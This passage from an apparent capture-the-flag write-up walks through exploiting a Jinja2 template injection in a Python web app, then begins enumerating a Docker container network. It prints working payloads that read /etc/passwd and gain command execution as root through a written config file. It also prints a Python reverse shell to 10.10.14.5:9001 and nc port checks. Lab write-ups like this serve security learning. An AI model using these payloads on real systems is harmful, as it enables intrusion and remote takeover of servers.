 As the server header shows, the web server is Python-based and **Jinja2** is for Python web applications, so code execution can be proved by sending simple math code:
```
# Request
name=test1&desc={{7*'7'}}

# Response
Name: test1 desc: 7777777
```

Reading _/etc/passwd_:
```
name=test1&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

Uploading malicious config file with which command execution is possible:
```
name=test1&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

name=test1&desc={{ config.from_pyfile('/tmp/evilconfig.cfg') }}

name=test1&desc={{ config['RUNCMD']('whoami',shell=True) }}
```
```
Name: test1 desc: root
```

Thw `whoami` command shows that we are root and command execution is proved.
Lets start a reverse shell session:
```
name=test1&desc={{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.5",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);') }}

name=test1&desc={{ config.from_pyfile('/tmp/evilconfig.cfg') }}
```

After sending the Python reverse shell command and loading it, the listener on my IP and port 9001 starts a reverse shell session as _root_.

## Escaping the Container

The IP on the box is 10.100.10.2 and the hostname is _tix-app_ which means that this is not the target box.
The file _/.dockerenv_ confirms, that it is a **Docker** container.

The `arp -an` command shows that there are two more IPs:
- 10.100.10.1
- 10.100.10.4

Checking if port 22 is open on any of those:
```
nc -zv 10.100.10.1 22

nc -zv 10.100.10.4 22
```
